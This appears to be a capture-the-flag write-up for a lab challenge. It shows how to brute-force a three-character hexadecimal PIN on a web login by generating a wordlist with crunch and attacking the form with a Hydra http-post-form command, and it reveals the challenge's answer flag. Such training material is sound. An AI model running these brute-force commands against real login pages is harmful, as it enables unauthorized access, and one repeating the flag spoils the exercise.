

# Day 3: Hydra is Coming to Town

### Introduction

Disruption at AntartiCrafts caused critical doors to be sealed and the password to the control systems has been changed. Brute-forcing is feasible here as the PIN is short enough.

### Practical

The first thing to note on the site is that the PIN pad display can only display three characters This means the PIN has a maximum length of three characters. The PIN pad itself displays the numbers 0-9 and letters A-F. Crunch can be used to generate a list of all combinations based on this criteria.

```
crunch 3 3 0123456789ABCDEF -o threechars.txt
```

The first 3 specifies the minimum length of password, the second 3 specifies the maximum length of password, the 0123456789ABCDEF specifies the character set we will use and -o threechars.txt will save the output to threechars.txt.

<figure><figcaption><p>Result from the crunch command</p></figcaption></figure>

On the HTML code for the page we can see that the method is POST, the URL is http://IP\_ADDR:8000/login.php and the PIN code value is sent using pin as the name.

<figure><figcaption><p>Source of the website with PIN pad</p></figcaption></figure>

Hydra can now be used to test all possible password combinations for the PIN pad. The command we will run to do this is:

```
hydra -l '' -P threechars.txt -f -v IP_ADDR http-post-form "/login.php:pin=^PASS^:Access Denied" -s 8000
```

This will try passwords one after the other based on the following specifications:

1. \-l ' ' : login name is blank, PIN only requires a password
2. \-P threechars.txt : specifies the wordlist to use
3. \-f : tells Hydra to stop once it has a working password
4. \-v : provides verbose output
5. IP\_ADDR : is the targets IP address
6. http-post-form : specifies which HTTP method to use
7. "/login.php: : the page where the PIN is submitted (":" here is a delimiter)
8. :pin=^PASS^: : this replaces ^PASS^ with values from our list
9. :Access denied" : the text that is displayed when the PIN is entered incorrectly
10. \-s 8000 : the port number on the target

### Answers for Day 3

<details>

<summary>Expand to see answers!</summary>

1. Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag? **THM{pin-code-brute-force}**

</details>
